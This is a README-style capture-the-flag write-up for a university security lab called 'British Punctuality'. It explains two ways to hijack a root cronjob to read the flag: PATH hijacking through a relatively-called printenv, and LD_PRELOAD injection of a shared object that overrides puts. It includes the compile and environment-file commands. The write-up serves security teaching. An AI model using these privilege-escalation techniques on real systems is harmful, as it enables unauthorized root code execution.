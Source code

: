 # FSI-CTFS: British Punctuality
 
#### Exploits created by José Miguel Isidro aka [zmiguel2011](https://github.com/zmiguel2011)
## DISCAIMER:
> This exploit in British Punctuality's CTF in 22/23 is due to an honest mistake by the teacher who created the CTF.
> Although this wasn't the intended way to solve the CTF, this is how I managed to solve it. Nevertheless, the intended way to solving is also included in this repository and will explained [here](#intended-way-to-solve-the-ctf-exploit2c)).

### Unintended Way to Solve the CTF (exploit.c)
> In [my_script.sh](../British%20Punctuality/my_script.sh) , printenv is vulnerable because of the missing absolute path. It should've been /bin/printenv. This enabled us to write arbitrary code in a 'fake' printenv program created by the user.

> You would have to compile this [program](../British%20Punctuality/exploit.c) with ggc and output the file to "printenv" in the /tmp folder.
```bash
cd /tmp
gcc -o printenv exploit.c
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
```

> Let the cronjob run and execute your printenv program and retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```


### Intended Way to Solve the CTF (exploit2.c)

> Compile this [program](../British%20Punctuality/exploit2.c) with ggc and create shared object in the /tmp folder.
```bash
gcc -c -Wall -Werror -fpic exploit.c
gcc -shared -o myexploit.so exploit.o
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
LD_PRELOAD=/tmp/myexploit.so
```

> For reference, If you haven't heard about the [LD_PRELOAD](https://www.google.com/search?q=LD_PRELOAD+trick) environment variable, you should read about it for better understading of the step above.

> Let the cronjob run and execute the reader program which will then print the flag because the 'puts' function was overwritten. Retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```
